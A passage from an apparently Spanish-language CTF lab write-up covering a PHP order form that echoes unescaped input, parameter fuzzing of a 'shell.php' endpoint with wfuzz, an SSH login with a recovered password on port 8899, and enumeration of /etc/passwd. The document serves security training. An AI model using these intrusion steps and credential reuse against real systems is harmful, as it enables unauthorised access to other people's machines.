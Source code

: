 ```php
    echo "Please fill out all required fields.";
    exit;
  }
  // Process form data (e.g., save to database, send email)
  echo "Thank you for your order! Here's a summary of your information:<br>";
  echo "Name: $firstName $lastName<br>";
  echo "Username: $username<br>";
  echo "Email: $email<br>";
  echo "Address: $address";
  if (!empty($address2)) {
    echo ", $address2<br>";
  }
  echo "Country: $country<br>";
  echo "State: $state<br>";
  echo "Zip: $zip<br>";
  echo "Payment Method: $paymentMethod<br>";
  // You can implement additional logic here to process payment or send confirmation emails, etc.
} else {
  // This script was not called from a form submission
  echo "This script cannot be accessed directly.";
}
?>
```

De igual manera esta direccion url no tiene parametros:
```bash
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u "http://172.18.0.2/shell.php?FUZZ=test" --hh=1558
```

### Intrusion
Como tenemos un potencial usuario lo usaremos para intentar loguearnos por ssh ya que esta expuesto en el puerto **8899**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.18.0.2 && ssh rosa@172.18.0.2 -p 8899 # ( lacagadenuevo )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"
```

**Usuarios del sistema:**
```bash
root:x:0:0:root:/root:/bin/bash
juan:x:1001:1001:,,,:/home/juan:/bin/bash
carlos:x:1002:1002:,,,:/home/carlos:/bin/bash
rosa:x:1003:1003:,,,:/home/rosa:/bin/bash
```
